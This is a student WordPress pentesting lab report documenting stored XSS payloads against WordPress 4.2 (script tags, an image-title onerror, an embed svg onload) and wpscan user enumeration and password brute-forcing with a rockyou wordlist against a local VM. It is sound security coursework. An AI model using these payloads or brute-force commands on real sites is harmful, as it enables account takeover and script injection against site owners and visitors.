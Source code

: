 # Project 7 - WordPress Pentesting

Time spent: 6 hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID:  Authenticated stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.6.1
  - [ ] GIF Walkthrough: <br /> ![](CrossScriptingOne.gif)
  - [ ] Steps to recreate: <br /> <ul><li>Create a post </li> <li>Add the following to the post : <script type="text/javascript">alert("Hiiii");</script> </li> <li> Publish </li> <li>Visit Post </li> </ul>
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/branches/4.1/src/wp-includes/post.php)
2. (Required) Vulnerability Name or ID : Authenticated Stored Cross-Site Scripting via Image Filename
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.6.1
  - [ ] GIF Walkthrough: <br />
    ![](EramCrossSiteScriptingFour.gif)
  - [ ] Steps to recreate: <br /> <ul><li>Upload a Image </li> <li>Add the following to the title of the image : Minnie<img src="#" onerror="alert('Hi its Minnie')";/>.jpg </li><li>Visit the page </li></ul>
  - [ ] Affected source code: 
    - [Link 1](https://core.trac.wordpress.org/browser/branches/4.1/src/wp-includes/media.php)
3. (Required) Vulnerability Name or ID : Password Brute Force Attack
  - [ ] Summary:
    - Vulnerability types: User Enumeration
    - Tested in version: 4.2
    - Fixed in version: N/A
  - [ ] GIF Walkthrough: <br />
     ![](EramUserEnumerating.gif)
  - [ ] Steps to recreate: 
    - Install worlists and get rockyou-75.txt. Make sure rockyou-75.txt is in /home/kali/Desktop/rockyou-75.txt
  ``` 
      $ apt-get install wordlists
      $ cd \usr\share\wordlists\
      $ gzip -d rockyou-75.txt.gz 
  ``` 
    - Get Api token from https://wpvulndb.com/ 
    - use token to find users : 
  ```
      $ wpscan --url wpdistillery.vm -e u vp --api-token (token name) 
  ```
  - use token to find password using rockyou-75.txt file: 
  ```
      $ wpscan --url wpdistillery.vm -e u --passwords /home/kali/Desktop/rockyou-75.txt --api-token (token name)
  ```

  - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/blob/master/wp-login.php) 
4. (Optional) Vulnerability Name or ID: Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.7.3
  - [ ] GIF Walkthrough:  <br />
  ![](EramCrossSiteScriptingTwo.gif)
  - [ ] Steps to recreate: <br /><ul><li>Create a new page <li> <Add a youtube embed url such as : [embed src='https://youtube.com/embed/minnie\x3csvg onload=alert(12)\x3e'][/embed]</li><li>Publish</li><li>View Page</li></ul>
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/branches/4.1/src/wp-includes/media.php)


## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Setting up the project was the most difficult. Error messages while setting up where not descriptive so had to try out different solutions to issues.

## License

    Copyright 2020 Eram Manasia

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
